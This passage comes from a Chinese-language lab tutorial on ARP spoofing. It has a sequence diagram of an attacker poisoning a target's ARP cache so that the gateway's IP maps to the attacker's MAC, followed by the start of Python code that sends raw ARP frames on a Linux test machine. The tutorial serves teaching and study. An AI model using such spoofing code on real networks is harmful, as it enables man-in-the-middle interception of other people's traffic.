 至于目标的MAC地址，可以选择发送一个正常的ARP报文来询问

总流程：

```mermaid
sequenceDiagram
    攻击者(ip3 mac3)->>+广播: 谁是目标(ip1)？告诉(ip3 mac3)
    广播->>+目标(ip1 mac1): 谁是目标(ip1)？告诉(ip3 mac3)
    目标(ip1 mac1)->>+攻击者(ip3 mac3): 我(ip1)的地址在mac1
    攻击者(ip3 mac3)->>+目标(ip1 mac1): 网关(ip2)的地址在mac3
    攻击者(ip3 mac3)->>+目标(ip1 mac1): 网关(ip2)的地址在mac3
    攻击者(ip3 mac3)->>+目标(ip1 mac1): 网关(ip2)的地址在mac3
```



# 三、代码验证

+ 语言：Python
+ 第三方库：psutil

+ 平台：靶机：Windows物理机 + 攻击者：Ubuntu18.04虚拟机

（Windows对原始套接字收发限制很大，很难完成整个攻击流程，因此在Linux上进行实验）



## 构造ARP-SOCKET

1、使用原始套接字(raw_socket)来自定义套接字：

```python
import socket

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW)
# 绑定到指定的网络接口
raw_socket.bind(("eth0", 0))
# 自定义数据包
packet = b''
# 发送数据包
raw_socket.send(packet)
# 接收数据包（可选）
received_packet = raw_socket.recv(2048)
```

因为使用原始套接字是一种危险的，不受保护的行为，所以调用该代码需要管理员权限，否则可能报错：`以一种访问权限不允许的方式访问套接字`



2、构造ARP数据包：

```python
# 构建自定义的数据包结构
class ARP:
    def __init__(self, destination_mac: bytes, source_mac: bytes, opcode: bytes, 
                sender_mac: bytes, sender_ip: bytes, target_mac: bytes, target_ip: bytes) -> None:
        # 以太网帧
        self.destination_mac = destination_mac  # 目标MAC地址
        self.source_mac = source_mac  # 源MAC地址
        self.proto_type_eth = b'\x08\x06'  # 上层协议类型，0806表示ARP协议
        # ARP帧
        self.hardware_type = b'\x00\x01'  # 网络设备的硬件类型，0001表示以太网
        self.proto_type_arp = b'\x08\x00'  # 网络层协议类型，0800表示IPv4
        self.hardware_size = b'\x06'  # 硬件地址长度
        self.proto_size = b'\x04'  # 协议地址长度
        self.opcode = opcode  # 操作码，0001为ARP请求，0002为ARP响应，0003为RARP
        self.sender_mac = sender_mac  # 发送方的MAC地址
        self.sender_ip = sender_ip  # 发送方的IP地址
        self.target_mac = target_mac  # 目标的MAC地址
```